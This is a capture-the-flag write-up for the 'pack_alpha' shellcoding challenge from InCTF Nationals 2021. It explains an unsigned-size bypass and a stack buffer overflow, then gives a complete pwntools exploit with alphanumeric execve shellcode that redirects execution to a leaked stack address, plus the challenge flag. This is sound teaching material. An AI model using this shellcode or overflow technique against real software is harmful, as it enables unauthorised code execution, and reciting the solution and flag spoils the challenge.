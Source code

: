 # pack_alpha

Challenge Points:

No of Solves:

Challenge Author: [d1g174l_f0r7r355](https://twitter.com/BhaskaraShravya)

An absoltely beginner friendly shellcoding based challenge I made for InCTF Nationals 2021. 
  - A preliminary analysis on the binary shows that `NX` is disabled along with `canary`.
  ```
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : ENABLED
RELRO     : FULL
```

## Analyzing the binary:
```
  puts("Welcome to our wolf camp!\n");
  puts("Please provide us with your personal information and we shall allocate you to your rooms.");
  printf("Email address: ");
  fgets(s, 10, stdin);
  printf("Age: ");
  fgets(&nbytes_7, 3, stdin);
  getchar();
  printf("Your room number is: %p\n", buf);
  printf("Length of your name: ");
  __isoc99_scanf("%u", &nbytes);
  getchar();
  if ( nbytes > 96 )
  {
    puts("\nWhoa! Such a huge name??\n");
    exit(0);
  }
  printf("Enter your name: ");
  dword_4050 = read(0, buf, (unsigned int)nbytes);
  fflush(stdin);
  while ( dword_4050 - 8 > dword_404C )
  {
    if ( (buf[dword_404C] <= 47 || buf[dword_404C] > 57)
      && ((*__ctype_b_loc())[buf[dword_404C]] & 0x400) == 0
      && buf[dword_404C] )
    {
      puts("\nBad character!");
      exit(0);
    }
    ++dword_404C;
  }
  ```
  - We see that a stack leak is provided, which is actually the address where our input is stored on the stack. 
  - Since we are reading an unsigned integer `(%u)` into `size` which is originally declared as an integer. 
      - The image below shows why this line of code is a vulnerability!
      ![signed_unsigned](https://user-images.githubusercontent.com/59280388/146581940-2c6686e3-c493-40b8-b346-e63fc5026091.png)
      
      As we see, the unsigned integers contain only a positive range, whereas the signed integers assume both the positive and the negative values. If we pick a number greater than 127, it will simply loop back to the beginning in case of the signed integer. If we pick anumber lesser than -127, it will loop to the end in case of the signed integer. Similar is the case for the unsigned integers.
      - If one gives a negative number as an input to size, since an unsigned integer is read, it will loop to the end as seen in the figure. As a result they can read as many amount of bytes as they want, and it would still surpass the condition for check of size being less than 96 bytes. 
  - Next we see that the while loop iterates till the last 8 bytes of our input. Inside the while loop, the condition fairly evaluates to:
      - `buf[ind] <=47 || buf[ind] > 57` --> which means our input can have a numeric character!
      - `((*__ctype_b_loc())[buf[ind]] & 0x400) == 0` --> our input can have any printable ascii characters since the `(*ctype_b_loc())` returns a pointer to the `traits` table that contains flags related to the characteristics of each single character. 
      - `buf[ind]` --> our input can contain a null byte `\0`.
  - Thus we can conclude that our input must only contain `alpha-numeric` characters. Since `seccomp` is absent, we can try giving an `execve` syscall containing only alpha-numeric opcodes. 
  
 ## Finding offsets:
 We can debug and figure out where our input is read into. 
 ```
 [-------------------------------------code-------------------------------------]
   0x55b8ec53d3f2:	mov    eax,DWORD PTR [rbp-0x14]
   0x55b8ec53d3f5:	mov    edx,eax
   0x55b8ec53d3f7:	lea    rax,[rbp-0x80]
=> 0x55b8ec53d3fb:	mov    rsi,rax
   0x55b8ec53d3fe:	mov    edi,0x0
   0x55b8ec53d403:	call   0x55b8ec53d120 <read@plt>
   0x55b8ec53d408:	mov    DWORD PTR [rip+0x2c42],eax        # 0x55b8ec540050
   0x55b8ec53d40e:	mov    rax,QWORD PTR [rip+0x2c1b]        # 0x55b8ec540030 <stdin>
``` 
- As we can see, our input buffer is read into `rbp-0x80`. Since the leak provided is nothing but the address of our input buffer string, we will need `0x80` bytes of buffer to fill our stack upto `rbp`. 
- Another `8` bytes of buffer to fill `rbp` before overwriting `rip` with the stack address. 

Now all we need is an `alpha-numeric shellcode`. Various [shellcodes](http://shell-storm.org/shellcode/) can be found here. But for the sake of solving the challenge, we will design an `alpha-numeric` shellcode instead of choosing one from the above website. 

## Alpha-numeric shellcode:


## Exploit:
```
from pwn import *

if __name__=="__main__":

	context(os='linux', arch='amd64')

	p = process('./pack_alpha')
	#p = remote('gc1.eng.run', 32385)
	gdb.attach(p)

	p.recv()
	p.sendline('b'*3)

	p.recv()
	p.sendline('12')

	p.recvuntil('Your room number is: ')
	leak = p.recvline()[:-1]
	leak = int(leak, 16)
	info("leak: %s"%hex(leak))

	p.recvuntil('Length of your name: ')
	p.sendline('-1')
	
	# alpha numeric shellcode:
	shell = 'XXj0TYX45Pk13VX40473At1At1qu1qv1qwHcyt14yH34yhj5XVX1FK1FSH3FOPTj0X40PP4u4NZ4jWSEW18EF0V'
	pay = shell
	pay += 'a'*(0x80 - len(shell))
	pay += 'b'*8
	pay += p64(leak)
	p.send(pay)
	

	p.interactive()
```

## Flag:
```inctf{4_tru3_4lph4_15_4_tru3_k1ng!!}```
